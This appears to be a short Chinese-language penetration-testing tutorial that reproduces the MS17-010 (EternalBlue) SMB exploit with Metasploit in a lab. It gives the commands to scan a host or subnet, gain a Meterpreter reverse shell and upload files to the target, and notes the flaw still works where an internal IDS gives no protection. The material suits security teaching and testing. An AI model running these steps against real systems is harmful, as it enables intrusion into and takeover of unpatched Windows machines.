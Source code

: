 ## **meterpreter**
meterpreter就是获取主机getshell，上线后的会话。

模拟使用ms17_010永恒之蓝拿下meterpreter的shell。
>ms17_010： 微软安全公告2017年第10个，永恒之蓝EternalBlue，利用windows的SMB服务协议445端口，实现执行代码反弹shell。
>SMB：是一种默认开启并开放445端口用于在局域网中共享文件、打印机和其他资源的网络协议。Windows系统使用SMB来实现文件和打印机共享，以便用户可以轻松地在网络上访问和共享文件。
>影响的系统版本：
Windows Vista
Windows Server 2008
Windows 7 (主要)
Windows Server 2008 R2 （主要）
Windows 8.1
Windows Server 2012
Windows 10
Windows Server 2016
内网IDS不做防护，还可以利用这个漏洞。
^
## **复现过程**
```
msfconsole  //启动msf

search ms17_010   //可以看到两个辅助检测模块auxiliary，两个利用模块exploit。

use   auxiliary/scanner/smb/smb_ms17_010   //先检测有没有。

show options
set rhosts 192.168.16.173     //设置目标等参数
set rhosts 192.168.16.0/24   //设置为扫网段探测
set thread 10

run   //检测目标445端口，返回结果存在漏洞

use exploit/windows/smb/ms17_010_psexec  //使用利用模块

run  //创建反弹shell，进入meterpreter


meterpreter>对目标机操作，提权等。
```
meterpreter常用命令操作：
<https://www.cnblogs.com/crabin/p/17486024.html>
```
上传文件
upload   /root/les.sh   /tmp/les.sh

查看身份
getuid

shell交互窗口
shell


后台运行会话
meterpreter>background

查看有哪些会话
msf>sessions

进入会话
msf>sessions 1
```